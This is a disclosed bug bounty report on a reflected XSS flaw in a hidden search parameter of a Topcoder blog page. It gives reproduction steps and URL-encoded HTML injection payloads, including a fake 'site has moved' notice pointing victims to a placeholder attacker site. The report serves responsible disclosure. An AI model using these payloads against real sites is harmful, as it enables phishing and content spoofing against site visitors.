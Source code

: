 # Reflected XSS in https://www.topcoder.com/blog/category/community-stories/

## Report Details
- **Report ID**: 1194301
- **URL**: https://hackerone.com/reports/1194301
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-05-12T17:20:40.210Z
- **Disclosed**: 2021-07-12T12:54:59.040Z

## Reporter
- **Username**: c0mbo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: lab45

## Vulnerability Information
## Summary:
Reflected XSS in https://www.topcoder.com/blog/category/community-stories/
Note: This is a reflected XSS vulnerability in a hidden input.
With that vulnerability, an attacker could write his own code on the website.
But with this vulnerability, an attacker also could lead a user, to go on his attacker's website.

## Steps To Reproduce:

  1. go to the website https://www.topcoder.com/blog/category/community-stories/
  2. in the search field search 123 
  3. The request URL should look like this:https://www.topcoder.com/blog/category/community-stories/?s=123&so=&o=
  4. The &so=&o= after 123 it's the hidden input value, which is vulnerable to reflected XSS
  5. At the end of the URL (at the end of the &so=&o=) write 1"><h1>DOM XSS by c0mbo</h1>
  6. Request URL: https://www.topcoder.com/blog/category/community-stories/?s=123&so=&o=1%22%3E%3Ch1%3EREFLECTED%20XSS%20by%20c0mbo%3C/h1%3E

## Other payloads:
1. https://www.topcoder.com/blog/category/community-stories/?s=123&so=&o=1%22%3E%3Cbutton%3Eclick%20me!%3C/button%3E
2. https://www.topcoder.com/blog/category/community-stories/?s=123&so=&o=1%22%3E%3Ch1%3E!!!ATTENTION!!!%20this%20site%20has%20moved%20to%20[www.attackerssite.com]%20if%20you%20want%20to%20login,%20please%20visit%20[www.attackerssite.com]%3C/h1%3E
3. https://www.topcoder.com/blog/category/community-stories/?s=123&so=&o=1%22%3E%3Ctextarea%3E

## Supporting Material/References:
I made some screenshots :)

Contact me, if you need more info!

Best regards,
@c0mbo

## Impact

With that vulnerability, an attacker can write his own code on the website.
So with that, he could write a message on the website, that this site moved and he has to visit the attacker's site and send the victim the link.
That could for example be a phishing site. This is similar to content spoofing. 
NOTE: Some people would count it as content spoofing, but than it is still in scope, because an attacker can implement / modify HTML on the website, but in my opinion, that's definitly reflected XSS.

## Attachments
- site_has_moved_to_attackers_url.png
- reflected_xss_by_c0mbo.png
- textarea.png
